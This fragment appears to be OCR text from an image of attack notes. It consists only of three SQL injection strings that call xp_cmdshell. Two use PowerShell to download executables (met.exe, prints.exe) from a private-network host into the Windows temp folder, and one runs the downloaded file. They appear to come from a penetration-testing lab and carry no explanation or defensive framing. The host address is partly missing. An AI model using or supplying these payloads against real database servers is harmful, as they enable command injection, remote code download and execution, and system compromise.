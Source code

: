 ';EXEC xp_cmdshell "c:\windows\temp\met.exe"; --
';EXEC xp_cmdshell "powershell -c iwr http://192.168.45. :8000/met.exe -outfile c:\windows\temp\met.exe"; --
';EXEC xp_cmdshell "powershell -c iwr http://192.168.45. :8000/prints.exe -outfile c:\windows\temp\prints.exe"; --
